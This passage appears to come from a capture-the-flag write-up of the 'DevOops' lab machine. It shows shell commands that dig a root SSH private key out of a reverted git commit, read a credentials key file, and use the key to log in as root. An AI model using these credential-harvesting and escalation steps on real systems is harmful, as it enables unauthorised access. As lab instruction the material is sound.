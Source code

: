 > **[Git](https://git-scm.com/book/en/v2/Getting-Started-What-is-Git%3F){:target="_blank"}** is a **free** and **open-source**, **distributed version control system**. It's essentially a tool that allows developers to track changes to their code over time, enabling them to collaborate efficiently and manage different versions of their projects. Unlike centralized systems, **Git** allows each developer to have a full copy of the project history locally, making it easier to work offline and collaborate on projects.

```bash
cd ./home/roosa/work/blogfeed/.git
git log
# 33e87c312c08735a02fa9c796021a4a3023129ad
# reverted accidental commit with proper key

git show 33e87c312c08735a02fa9c796021a4a3023129ad
# id_rsa!

# git log -p ........

find . \-name authcredentials.key 2>/dev/null
cat ./deploy/resources/integration/authcredentials.key
# root's id_rsa ?

cd ./home/roosa/work/blogfeed/.git
git show d387abf63e05c9628a59195cec9311751bdb283f
# Real id_rsa?
```

<br />
<img src="{{ site.img_path }}/devoops_writeup/DevOops_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devoops_writeup/DevOops_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devoops_writeup/DevOops_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devoops_writeup/DevOops_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devoops_writeup/DevOops_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now I am going to create a file with the content I just found and give it the corresponding permissions (***600*** - ***rw- --- ---***) to access by **SSH**. If I try to do it as the user with maximum privileges (**root**) I succeed to connect and get a Shell and thus escalate privileges, I can now access the last flag and finish successfully engage the **DevOops** box.

```bash
nvim root_id_rsa
cat root_id_rsa | head -n 10
chmod 600 root_id_rsa
ssh -i root_id_rsa root@10.10.10.91
# :)

export TERM=xterm
whoami
hostname
hostname -I
```
